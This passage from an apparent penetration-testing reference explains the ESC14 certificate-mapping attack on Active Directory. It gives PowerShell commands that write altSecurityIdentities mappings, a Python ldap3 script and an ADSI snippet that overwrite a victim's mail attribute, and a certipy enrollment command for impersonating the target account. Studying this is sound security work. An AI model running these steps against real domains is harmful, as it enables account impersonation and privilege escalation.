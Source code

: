     ```bash
    Add-AltSecIDMapping -DistinguishedName $TARGET_DN -MappingString $MAPPING_STRING
    Get-AltSecIDMapping -DistinguishedName $TARGET_DN
    ```
    The certificate requested at the begining can then be used with Pass-the-Certificate to obtain a TGT and authenticate as the target.

    The certificate mapping written can be cleaned with [Remove-AltSecIDMapping](https://github.com/JonasBK/Powershell/blob/master/Remove-AltSecIDMapping.ps1) (PowerShell).
    ```bash
    Remove-AltSecIDMapping -DistinguishedName $TARGET_DN -MappingString $MAPPING_STRING
    ```
#### ESC14 B: Target with X509RFC822 (email)
The target has an explicit weak mapping of type `X509RFC822`. The attacker can modify the mail attribute of the victim so that it matches the `X509RFC822` mapping of the target. It is then possible to enroll on the certificate model with the victim, and use the certificate obtained to authenticate as the target.
For this attack, a few additional prerequisites are necessary:
!!! note
    - The target is a user account
    - The target already has at least one `X509RFC822` mapping in `altSecurityIdentities`
    - The attacker has write access to the `mail` attribute of the victim
    - The certificate template shows `CT_FLAG_NO_SECURITY_EXTENSION` in `msPKI-Enrollment-Flag` and shows the attribute `CT_FLAG_SUBJECT_ALT_REQUIRE_EMAIL` in `msPKI-Certificate-Name-Flag`
    - For PKINIT, `StrongCertificateBindingEnforcement` is set to 0 or 1
    - For Schannel, `CertificateMappingMethods` indicates `0x8` and `StrongCertificateBindingEnforcement ` is set to 0 or 1
=== "UNIX-like"
    From UNIX-like systems, the mail attribute of the victim can be overwritten to match the `X509RFC822 `mapping of the target using the following python script
    ```bash
    import ldap3

    server = ldap3.Server('<DC_HOST>')
    victim_dn = "<VICTIM_DN>"
    attacker_username = "<DOMAIN>\\<ATTACKER_SAMACCOUTNNAME>"
    attacker_password = "<ATTACKER_PASSWORD>"

    conn = ldap3.Connection(
        server=server,
        user=attacker_username,
        password=attacker_password,
        authentication=ldap3.NTLM
    )
    conn.bind()

    conn.modify(
        victim_dn,
        {'mail':[(ldap3.MODIFY_REPLACE, '<TARGET_EMAIL>')]}
    )

    conn.unbind()
    ```
    With certipy, it is then possible to enroll on a certificate template using the victim credentials.
    ```bash
    certipy req -u $VICTIM@$DOMAIN -ca $CA_NAME -template $TEMPLATE -dc-ip $DC_IP
    ```
=== "Windows"
    From Windows systems, with PowerShell the mail attribute of the victim must be overwritten to match the email indicates in the `X509RFC822` mapping of the target.
    ```bash
    $victim = [ADSI]"LDAP://$VICTIM_DN"
    $victim.Properties["mail"].Value = $TARGET_EMAIL
    $victim.CommitChanges()
    ```